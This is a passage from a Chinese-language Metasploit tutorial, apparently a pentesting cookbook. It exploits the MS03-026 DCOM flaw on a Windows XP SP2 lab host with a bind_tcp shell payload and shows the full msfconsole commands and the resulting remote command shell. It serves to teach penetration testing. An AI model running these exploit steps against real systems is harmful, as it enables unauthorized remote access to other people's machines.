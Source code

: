 我们将再次启动我们的`msfconsole`，我们的目标与*在 Windows XP SP2 机器上进行渗透测试*配方中相同。我们将使用相同的`dcom`漏洞，然后这次使用不同的有效载荷将一个 shell 绑定到目标。

## 如何做...

要将一个 shell 绑定到目标，按照以下步骤进行：

1.  我们将从选择`dcom`利用开始针对我们的目标机器。我们将设置各种利用参数，然后选择有效载荷：

```
    msf > use exploit/windows/dcerpc/ms03_026_dcom
    msf exploit(ms03_026_dcom) > show options
    Module options (exploit/windows/dcerpc/ms03_026_dcom):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST yes The target address
    RPORT 135 yes The target port
    Exploit target:
    Id Name
    -- ----
    0 Windows NT SP3-6a/2000/XP/2003 Universal
    msf exploit(ms03_026_dcom) > set RHOST 192.168.56.102
    RHOST => 192.168.56.102 
    ```

1.  现在我们的利用已经设置好，我们现在将转向有效载荷。使用`show payloads`命令将列出所有可用的有效载荷。现在，我们将使用`windows/shell/bind_tcp`有效载荷，它将在目标机器上的端口`4444`（默认）上打开一个 TCP 连接，并为我们提供一个命令 shell：

```
    msf exploit(ms03_026_dcom) > set PAYLOAD windows/shell/bind_tcp
    PAYLOAD => windows/shell/bind_tcp 
    ```

1.  现在：使用`show options`命令，我们可以设置其他相关参数，如`RHOST`并更改默认端口。设置好参数后，我们将执行利用。让我们看看执行的输出是什么：

```
    msf exploit(ms03_026_dcom) > exploit
    [*] Started reverse handler on 192.168.56.101:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP - Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (AlwaysOn NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.56.102
    [*] Command shell session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1052) at 2011-10-31 01:55:42 +0530
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.
    C:\WINDOWS\system32> 
    ```

利用已经成功执行，并且我们在`msfconsole`中启动了一个命令提示符。现在，这个会话可以用来完全远程访问目标机器。我们可以随时使用`exit`命令退出这个会话。

你现在可能已经意识到了 Metasploit 中有效载荷的强大。强烈建议尝试各种可用的有效载荷，以了解它们的功能。

## 它是如何工作的...

`dcom`利用的工作原理与上一篇文章中解释的相同。要了解`bind_tcp`的工作原理，我们需要等一会儿，因为它涉及到一些我们将在本书的后面章节中处理的概念。不过，你可以通过浏览`/pentest/exploits/framework3/modules/payloads/stagers/windows/bind_tcp.rb`来查看有效载荷 ruby 代码。

## 还有更多...

接下来呢？shell 访问如何为我们提供对目标的控制。

### 获得对目标的完全控制

```